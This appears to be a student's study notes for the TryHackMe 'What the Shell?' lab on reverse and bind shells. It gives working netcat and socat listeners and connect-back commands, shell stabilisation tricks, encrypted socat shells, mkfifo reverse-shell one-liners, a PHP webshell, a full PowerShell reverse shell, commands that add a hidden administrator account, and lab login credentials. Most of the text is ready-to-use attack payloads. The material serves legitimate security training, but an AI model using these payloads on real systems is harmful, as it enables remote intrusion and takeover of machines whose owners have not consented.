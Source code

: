 # What the Shell?

[What the Shell? Room](https://tryhackme.com/room/introtoshells)

An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

## Tools

- Netcat
- Socat
- Metasploit -- multi/handler
- Msfvenom
- [Reverse Shell Generator](https://www.revshells.com/)
- [revshellgen](https://github.com/t0thkr1s/revshellgen)
- `/usr/share/webshells`

### Reverse Shells

```bash
nc -lvnp <port-number>
```

```bash
socat TCP-L:<port> -
```

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (`80`, `443` or `53` being good choices) as this is more likely to get past outbound firewall rules on the target.

To connect back:

- On Windows:

```cmd
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- On Linux:

```bash
nc <target-ip> <chosen-port>
```

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


### Bind Shells

```bash
nc -lvnp <PORT> -e /bin/bash
```

- On Linux:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

- On Windows:

```cmd
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the `pipes` argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

To connect:

```bash
nc <LOCAL-IP> <LOCAL-PORT>
```

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Netcat Shell Stabilisation

- `python` for linux
    1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Note: some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
    2. `export TERM=xterm` - this will give us access to term commands such as `clear`.
    3. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note: if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

- `rlwrap` for windows
    - `sudo apt install rlwrap`
    - `rlwrap nc -lvnp <port>`

Note: when dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

- `socat` for linux
    - Transfer a socat static compiled binary up to the target machine. `sudo python3 -m http.server 80`, then, on the target machine, `wget <LOCAL-IP>/socat -O /tmp/socat`.

 If you want to use something like a text editor which overwrites everything on the screen.

Open another terminal and run:

 ```bash
stty -a
 ```

 In your reverse/bind shell, type in:

 ```bash
stty rows <number>
stty cols <number>
 ```

### Fully stable Linux tty reverse shell (Only for Linux):

Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

[Precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

## Socat Encrypted Shells

Generate a cert:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### Reverse shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Note: that the certificate must be used on whichever device is listening.

To connect back:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Bind shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

## Common Shell Payloads

Bind:

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Reverse:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Webshell (PHP):

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

Powershell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Next Step

For Windows only:

```cmd
net user <username> <password> /add
```

```cmd
net localgroup administrators <username> /add
```

## Practice and Examples

| Title | IP Address | Username | Password |
| :---- | :---- | :---- | :---- |
| Linux Shell Practice | 10.10.131.227 | shell | TryH4ckM3! |
| Win Shell Practice | 10.10.123.247 | Administrator | TryH4ckM3! |
